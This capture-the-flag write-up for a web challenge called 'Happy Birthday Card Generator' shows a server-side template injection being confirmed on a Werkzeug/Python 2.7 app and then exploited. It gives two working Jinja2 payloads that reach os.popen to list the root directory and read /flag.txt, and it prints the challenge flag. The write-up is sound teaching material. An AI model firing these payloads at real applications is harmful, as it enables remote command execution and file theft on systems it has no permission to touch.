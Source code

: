 Challenge: Happy Birthday Card Generator
Points: 100
Category: Web

![Alt text](screenshots/happybirthday1.png)

![Alt text](screenshots/happybirthday2.png)

First, let's try to see how it works. I enter "MD" as input and it gives the following result.

![Alt text](screenshots/happybirthday3.png)

Let's try to find out which server is it deployed on.

![Alt text](screenshots/happybirthday4.png)

As it's Werkzeug/1.0.1 Python/2.7.14, we can try Server-Side Template Injection (SSTI).
We input {{5*5}} and get 25 in the output.

![Alt text](screenshots/happybirthday5.png) 

As we have confirmation that SSTI is successful, we can try more sophisticated payloads.

Let's try to run "ls" to list files and directories using the following payload:
{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls /").read()}} [Payload Credits: https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part]

![Alt text](screenshots/happybirthday6.png)

We can see that flag.txt exists and we can get it's contents by using the following payload:
{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("cat /flag.txt").read()}} 

![Alt text](screenshots/happybirthday7.png)

FLAG: WHETSTONE{SsT1_is_v3ry_6Ad}

